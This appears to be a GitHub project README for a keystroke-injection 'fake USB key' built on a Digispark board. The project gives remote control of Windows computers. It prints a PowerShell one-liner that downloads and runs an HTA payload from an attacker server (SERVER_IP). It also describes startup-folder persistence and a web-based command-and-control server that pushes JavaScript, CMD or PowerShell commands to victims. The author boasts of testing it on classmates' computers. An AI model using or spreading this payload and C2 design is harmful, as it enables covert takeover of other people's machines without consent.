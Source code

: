 ## Demo

I recently posted [a video](https://www.youtube.com/watch?v=vo7N044aZvU) on my [YouTube Channel](https://www.youtube.com/channel/UCGj6pfxZ0XYJU29XNwXPPxg/featured) showing how easy it is to take control of a computer with a fake USB key. Here it is:

#demo

![youtube](vo7N044aZvU)

Essentially, when you plug the USB key in a PC, it types commands to give control of your computer to the attacker. Once a computer is infected, you will be able to control it by going to a website from another computer or even from a cell phone!

## How it Works

The _fake USB key_ is in fact made from an arduino-compatible board, a `Digispark`. You can buy some from [here](https://www.ebay.com/itm/Digispark-Kickstarter-ATTINY85-General-Micro-USB-Development-Board-Sale/173925228046?hash=item287ec05e0e:g:hQIAAOSwTuJYpT~p).

> Arduino is an open-source hardware and software company, project and user community that designs and manufactures single-board microcontrollers and microcontroller kits for building digital devices.
>
> [Wikipedia](https://en.wikipedia.org/wiki/Arduino)

It also has a custom case, made using _3D printing_. You can [download the STL file here](./Case%204%20v9.stl).

Arduino boards are perfect for small electronics projects. However, the `Digispark` is a special _Arduino_ board: it can be programmed to automatically send keystrokes to a computer, and this is the key to easily infect a computer in a matter of seconds. It types commands really fast to download a program from a remote server, which itself copies itself on the computer so that it starts up as soon as the infected computer boots.

After that, the attacker goes to the server's `IP` address on a web browser to connect to it. From the web interface, he can send commands in `JavaScript`, `JScript` or even use _CMD_ or _PowerShell_ to do literally everything he wants to the infected computer.

## Under the Hood

What I find most interesting about this project is how it all works _under the hood_. First, let's talk about the commands typed by the "USB" key (the [Digispark](https://www.ebay.com/itm/Digispark-Kickstarter-ATTINY85-General-Micro-USB-Development-Board-Sale/173925228046?hash=item287ec05e0e:g:hQIAAOSwTuJYpT~p)) to easily infect a computer. It opens up _Windows PowerShell_ using the _Run_ prompt, and then types the following command:

```shell
$p = "$env:temp/client.hta";(New-Object System.Net.WebClient).DownloadFile("http://SERVER_IP/client.hta", $p);cd $env:temp;start -PSPath $p;
```

What this command does is simple: it navigates to `http://SERVER_IP/client.hta` and downloads the client.hta file onto the user's hard drive, in the `TEMP` directory. Once this is done, it executes it, which copies it on the user's startup folder (so that it runs every time the machine boots up) and constantly pings the server using a `POST` request to see if a command is available.

> In computing, POST is a request method supported by HTTP used by the World Wide Web. By design, the POST request method requests that a web server accepts the data enclosed in the body of the request message, most likely for storing it. It is often used when uploading a file or when submitting a completed web form.
>
> [Wikipedia](<https://en.wikipedia.org/wiki/POST_(HTTP)>)

Here is how the server works:

- When the server is sent a `POST` request, it looks up in its database to see if a command is ready to be sent to the infected computer. If so, it sends the `JavaScript` command as a response to the `POST` request.
- When the server is sent a `GET` request with the corresponding _password_, it just responds with the webpage for the attacker, in order to be able to send commands wirelessly. If the `GET` request contains an `IP` address and a command, then it is stored in the database, waiting for an infected computer to ask for its command. As said previously, when this happens, the command is sent to the victim computer for it to execute.
- Finally, when the server is asked for the `log`, it sends all the commands from the database with their responses from the infected computer, so that they can be displayed on the attacker's web interface.

## Final Words

This is a project that took me a while to polish down to its final shape. Now that it is completed, I am really happy with the result! Even if I do not recommend you do so, I have tested it successfully on my classmates' computers, and their reactions were priceless.
